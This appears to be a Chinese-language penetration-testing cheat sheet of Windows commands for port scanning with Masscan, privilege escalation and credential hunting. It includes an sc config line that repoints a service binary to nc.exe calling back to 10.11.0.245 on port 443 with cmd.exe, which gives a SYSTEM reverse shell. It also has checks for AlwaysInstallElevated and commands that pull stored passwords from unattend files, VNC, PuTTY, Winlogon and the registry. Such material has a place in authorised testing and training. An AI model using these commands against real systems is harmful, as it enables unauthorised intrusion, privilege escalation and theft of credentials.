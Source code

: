 **使用Masscan进行端口扫描**

```text
masscan -p1-65535,U:1-65535 10.10.10.x --rate=1000 -e tun0
```

#### 利用脆弱的Windows服务:薄弱的服务权限

```text
# 在输出中查找SERVICE ALL访问
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

sc config [service_name] binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""
sc qc [service_name] (to verify!)
sc start [service_name]
```

#### 查找为给定用户显式设置的文件/文件夹权限

```text
icacls.exe C:\folder /findsid userName-or-*sid /t
//look for (F)ull, (M)odify, (W)rite
```

**始终安装升高的MSI**

```text
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated & reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

#### Windows存储凭证

```text
c:\unattend.xml
c:\sysprep.inf
c:\sysprep\sysprep.xml
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
dir /s *cred* == *pass* == *.conf

# Windows Autologon
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Registry
reg query HKLM /f password /t REG_SZ /s 
reg query HKCU /f password /t REG_SZ /s
```
